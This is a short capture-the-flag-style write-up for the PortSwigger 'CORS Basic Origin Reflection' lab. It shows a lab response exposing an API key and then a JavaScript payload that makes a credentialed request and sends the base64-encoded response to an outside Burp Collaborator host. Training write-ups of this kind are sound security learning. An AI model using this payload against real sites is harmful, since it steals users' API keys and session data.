

# [CORS Basic Origin Reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)

The API key I want comes from the following endpoint:


```http
HTTP/2 200 OK
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "81itQT1frKM56dwhErqRoDzbZ4uMJgar",
  "sessions": [
    "iGKySC6N7r2cilSmrOAgzR7doBnt4MvD"
  ]
}
```

This endpoint accepts arbitrary `Origin` headers:



So, a basic callback to Burp Collaborator succeeds:

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://LAB_ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
    	location='//COLLAB_ID.oastify.com/?'+btoa(this.responseText);
    };
</script>
```

